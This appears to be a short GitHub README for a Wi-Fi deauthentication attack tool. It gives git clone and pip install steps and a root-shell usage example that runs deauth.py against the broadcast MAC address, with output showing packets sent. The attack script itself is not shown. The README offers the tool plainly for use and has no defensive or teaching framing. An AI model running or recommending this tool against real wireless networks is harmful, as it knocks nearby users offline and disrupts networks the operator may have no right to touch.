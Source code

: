# Wi-Fi-Deauthentication-Attack

## [+] Install
```
git clone https://github.com/OctopusTR/Wi-Fi-Deauthentication-Attack && cd Wi-Fi-Deauthentication-Attack
pip install -r requirements.txt
```
## [+] Usage
```
┌──(root㉿octopus)-[~]
└─# python deauth.py ff:ff:ff:ff:ff:ff
WARNING: No route found for IPv6 destination :: (no default route?)
.................................................................................^C
Send 107 packets.
```

